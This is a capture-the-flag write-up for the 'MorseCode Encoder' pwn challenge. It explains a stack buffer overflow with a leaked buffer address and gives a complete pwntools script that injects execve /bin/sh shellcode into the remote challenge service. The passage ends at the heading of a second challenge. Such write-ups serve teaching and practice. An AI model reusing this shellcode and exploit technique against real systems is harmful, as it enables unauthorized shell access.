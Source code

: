## Pwn/MorseCode Encoder

### Initial Analysis

![image](https://github.com/user-attachments/assets/75fea0e5-d9df-44c0-a4ff-e240702dae63)

All of the security protections have been turned off (except ASLR of course).

![image](https://github.com/user-attachments/assets/630985d6-ce73-4b4a-b719-ad06f6062481)

When running the binary, we can see that it leaks out the address of our buffer, which is located in the stack memory region. The challenge is screaming ret2shellcode since we are given the address of the buffer and NX (No eXecute) protection is turned off. NX is a protection which prevents execution of shellcode in the stack. So, the basic idea is to inject shellcode into the buffer and overwrite the saved return address to point to our shellcode.

![image](https://github.com/user-attachments/assets/b1ceda87-4725-4f2f-8790-e51fc736bb5b)

However, when you overwrite the values which are popped into ecx, ebx and ebp, it will affect where the return goes to due to `lea esp, [ecx-0x4]`. So, we need to control the value of ecx since it will be moved into esp and control our return address.

![image](https://github.com/user-attachments/assets/0c379971-a400-413b-97bc-604b0818d413)

Just 12 bytes below our input, there is a pointer to our buffer. So, that will be our target. Now, we just need a shellcode. You can use msfvenom, shellcraft or find it online. I used shellcode from https://shell-storm.org/shellcode/files/shellcode-811.html

### Solve Script

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./morse-converter')
libc = exe.libc

host = "morsecode-encoder.ihack24.capturextheflag.io"
port = 1337

gdb_script = '''
b *main+141
c
'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
# p = gdb.debug('./morse-converter', gdbscript = gdb_script)

offset = 1024

sc = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

ru(b"address: ")
leak = int(r(10), 16)
tar = leak - 0x10

payload = sc.rjust(1024, b"\x90")
payload += p32(tar+8) * 10

sla(b"Enter]: ", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/4856326e-f2e0-48ee-ae31-4c1bf492e4e5)

## Pwn/EtcPasswd Reader

### Initial Analysis
